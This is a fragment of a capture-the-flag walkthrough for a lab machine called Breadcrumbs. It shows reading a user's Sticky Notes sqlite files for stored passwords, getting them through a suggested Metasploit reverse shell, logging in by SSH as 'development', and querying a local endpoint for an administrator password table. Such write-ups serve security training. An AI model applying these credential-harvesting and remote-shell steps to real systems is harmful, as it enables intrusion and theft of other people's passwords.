 ```sh
            <td>It stores passwords in plain text</td>
        </tr>
        <tr>
            <td>Add new features to password manager</td>
            <td>Not started</td>
            <td>To get promoted, hopefully lol</td>
        </tr>
</table>

</html>
```

As we can see they tell us that : "Migrate passwords from the Microsoft Store Sticky Notes application to our new password manager". This means that we need the development user
Go to the location on windows where sticky notes are and download the 3 file.
plum.sqlite
plum.sqlite-shm
plum.sqlite-wal

```sh
juliette@BREADCRUMBS C:\Users\juliette\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState>dir
 Volume in drive C has no label.
 Volume Serial Number is 7C07-CD3A

 Directory of C:\Users\juliette\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState

01/15/2021  04:10 PM    <DIR>          .
01/15/2021  04:10 PM    <DIR>          ..
01/15/2021  04:10 PM            20,480 15cbbc93e90a4d56bf8d9a29305b8981.storage.session
11/29/2020  03:10 AM             4,096 plum.sqlite
01/15/2021  04:10 PM            32,768 plum.sqlite-shm
01/15/2021  04:10 PM           329,632 plum.sqlite-wal
               4 File(s)        386,976 bytes
               2 Dir(s)   6,313,762,816 bytes free
```

You can use Metasploit to have a revshell & download the files.
Get all notes then ssh as development with password in note.

## Development

Go to C:\Development

The "Krypter_Linux" binary contains information that may be of interest to us, so to see that we will use ida.

![hack](https://media.discordapp.net/attachments/490431433559506954/823468108772933642/unknown.png)

Inside there is a command and you can see what it does when you do it "

```sh
http://127.0.0.1:1234/index.php?method=select&username=administrator&table=passwords 
```
